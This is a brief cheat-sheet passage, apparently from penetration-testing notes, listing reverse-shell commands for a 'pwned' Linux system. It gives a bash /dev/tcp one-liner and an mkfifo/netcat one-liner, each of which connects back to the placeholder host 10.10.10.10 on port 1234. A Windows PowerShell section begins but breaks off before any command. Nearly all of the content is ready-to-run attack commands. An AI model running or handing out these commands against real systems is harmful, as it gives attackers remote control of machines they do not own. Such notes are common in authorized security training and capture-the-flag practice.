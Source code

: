 
## Reverse Shells:

### Linux:
###### *To get reverse shell on the pwned linux system:*
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
*OR*
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

### Windows:
powershell command to get reverse shell on the windows system:
